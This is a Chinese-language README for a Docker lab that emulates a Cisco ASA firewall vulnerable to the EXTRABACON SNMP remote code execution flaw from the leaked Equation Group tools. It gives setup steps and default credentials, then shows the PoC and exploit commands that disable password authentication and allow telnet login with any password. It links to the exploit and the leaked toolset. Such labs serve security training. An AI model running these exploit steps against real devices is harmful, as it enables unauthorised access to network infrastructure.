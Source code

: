 Cisco ASA SNMP 远程代码执行漏洞(方程式 EXBA)
---

### 漏洞信息

2016/08/16日左右自称「The Shadow Brokers」（影子经纪人）的黑客组织入侵了「EquationGroup」（方程式组织，外界透露该组织隶属于美国国家安全局NSA），获取到其内部数据，并将部分网络攻击工具与文件公布至互联网，甚至重金拍卖。从公开的部分数据分析，具有针对主流厂商防火墙产品的攻击工具与方法。

上述事件中提到的文件下载地址：https://github.com/samgranger/EQGRP

Cisco ASA 防火墙 8.x~8.4 版本 Simple Network Management Protocol 存在远程代码执行漏洞，黑客可在获取 community string 后执行任意代码。在开启 SSH 或 Telnet 情况下，可通过代码执行暂时关闭身份认证，从而以任意密码远程登录防火墙。

### 镜像信息

由于 cisco 启动需要自己的内核，而 docker 不能指定内核，所以在 docker 中安装了 qemu 模拟器，通过桥接方式将 cisco 与外网连通。

> 如果你有更好的办法，可以指出

类型 | 值
:-:|:-:|:-:
console 端口 | 2001
telnet 远程管理密码 | cisco
snmp community string | public

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:c_cisco_1
 ```

2. 启动环境

 ```
$ docker run --name=asaexba -d --privileged=true -p 2001:2001 medicean/vulapps:c_cisco_1
 ```
 > `-p 2001:2001` 前面的 2001 代表物理机的端口，可随意指定。
 >
 > 手动指定 Cisco ASA 内存(默认 1024M, 低于 512M 会启动不成功)： -e MEMORY=2048

3. 获取 ASA 的 IP 地址

 由于每个人的 Docker IP 地址段不统一，需要动态获取 ASA 的 IP 地址，Cisco IP 地址为容器 IP 主机位加 1。

 查看容器的 IP 地址：

 ```
 $ docker exec asaexba ifconfig
 ```
 例如查到的 IP 是: 172.17.0.2 那么 CISCO 的 IP 地址为 172.17.0.3

4. 检测是否启动

 路由器启动时间较长，根据个人机器和分配内存大小启动时长不一。在获取 ASA 的 IP 地址后，在物理机上使用 telnet 连接，如：
 ```
 $ telnet 172.17.0.3
 ```
 如果出现 cisco 远程管理界面则表示启动成功。


### 使用与利用

### PoC 使用

> 本例中使用 [Cisco SNMP 远程命令执行漏洞(方程式 EXBA) PoC](http://www.bugscan.net/source/plugin/4638/template/)


1. 下载并安装 `BugScan SDK`

 详见 [BugScan 插件开发文档 - 环境配置](http://doc.bugscan.net/chapter1/1-1.html)

2. 修改 `poc.py` 中地址为容器地址，修改 community string

 ```
if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.snmp, {"ip": '172.17.0.3', "community": "public"})[1])
 ```

3. 运行 `poc.py`

 ```
$ python poc.py
 ```

### Exp 使用

Exp 下载地址：https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/40258.zip

假设 Cisco ASA 的 IP 地址为: 172.17.0.3

1. 获取信息：
 ```
$ python extrabacon_1.1.0.1.py info -t 172.17.0.3 -c public
 ```
 执行成功后会在屏幕上显示 EXBA/keys 目录下生成的 .key 文件
 ```
To check the key file to see if it really contains what we're claiming:  
# cat /EXPLOITS/EXBA/keys/ac8d0q.key
 ```

2. 令远程管理密码失效:
 ```
$ extrabacon_1.1.0.1.py exec -k ac8d0q -t 172.17.0.3 -c public --mode pass-disable
 ```

3. 使用 telnet 登录
 ```
$ telnet 172.17.0.3
 ```
 输入任意密码即可登录成功(本环境中默认密码为 cisco)。

4. 令远程管理密码生效
 ```
$ extrabacon_1.1.0.1.py exec -k ac8d0q -t 172.17.0.3 -c public --mode pass-enable
 ```
